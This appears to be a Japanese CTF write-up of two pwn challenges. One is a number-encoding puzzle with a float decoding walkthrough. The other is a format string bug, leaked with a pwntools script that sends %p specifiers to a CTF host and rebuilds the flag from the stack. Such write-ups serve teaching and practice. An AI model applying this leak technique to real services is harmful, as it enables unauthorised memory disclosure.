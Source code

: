 ## Pwn

### Lv.2 INTelligent

３種類の方法で文字列として数値を入力するので、これを一致させる問題です。

```c
scanf("%x", &hexint); // hexint == 233577965
```

1つ目は16進数として捉えられるので、 $233577965_{(10)} = \text{dec1ded}_{(16)}$ より`dec1ded`を入力すれば良い。

https://tools.kq5.jp/misc/number

```c
scanf("%4s", &strint); // strint == 860037486
```

2つ目は $860037486_{(10)} = \text{3343216e}_{(16)}$ これが下2桁ごとにASCIIコードとして認識されるので、`6e 21 43 33`となりこれを変換すると`n!C3`となる。これを入力すれば良い。

https://www.rapidtables.com/convert/number/hex-to-ascii.html

```c
scanf("%f", &flint); // flint == 1078530008
```

3つ目はfloatとして入力を受け付け、これをintに変換する。 $1078530008_{(10)} = \text{01000000010010010000111111011000}_{(2)}$ であり、float型は符号部1bit、指数部8bit、仮数部23bitで構成される。
よって、符号部は $0$ 、指数部は $10000000_{(2)} = 128$ 、仮数部は $0.10010010000111111011000_{(2)} = 0.570796012878418$  
以上より、入力するべき値は $(-1)^0 \times 2^{128 - 127} \times 1.570796012878418 = 3.14159202576$ となる。

以上を入力してフラグを獲得。

`CPCTF{3v3ryth1ng_15_integer}`

### Lv.3 Flag Guardian

与えられたプログラムには、本来`printf("%s\n", &input)`とすべきところをそのまま渡しているため、`input`内に含まれる`%`がフォーマット指定子として解釈されてしまう脆弱性がある。`%p`を用いて任意のスタック上の内容を読み取ることが可能である。

```c
    printf("Do you want to see the flag? (yes/no) ");
    fgets(input, sizeof(input), stdin);

    printf("You entered: ");
    printf(input);
    printf("\n");
```

これを踏まえると、以下のスクリプトでフラグを得られた。

```python
from pwn import *

sock = remote("flag_guardian.web.cpctf.space", 30007)

payload = flat(b"yes", b"%12$p ", b"%13$p ", b"%14$p ", b"%15$p")
sock.sendlineafter(b"Do you want to see the flag? (yes/no) ", payload)

data = sock.recvall().decode()
hex_strings = re.findall(r'0x([0-9A-Fa-f]{1,16})', data)

parts = []
for hx in hex_strings:
    full16 = hx.zfill(16)
    b = bytes.fromhex(full16)[::-1]
    parts.append(b.rstrip(b'\x00').decode('ascii', errors='ignore'))
flag = ''.join(parts)
```

[^pdf]: radare2で関数の逆アセンブルを行うコマンド
[^sosuu]: 素数の密度は素数定理により対数関数でおおまかに評価できる。よって巨大な数の近辺には高確率で素数が存在することが言える。
[^logfile]: これを見つけたときの快感
[^summer]: [Summer Pockets](http://key.visualarts.gr.jp/summer/) Key製の面白いノベルゲー、アニメやってるらしい。
[^gohan]: ちょうどお昼ご飯を食べながら見ていました
[^youtube]: 何故か渋谷駅西口の工事風景を定期的に投稿している人が存在。この方がいなかったら無理だった。
[^zunzun]: 「ずんずんずずん ずんずずんずんずん」「ずずずずずんずんずずんずん」
[^simple]: Webの問題ってシンプルなの多いですよね、って思ってたらLv.5にエグいのがありました。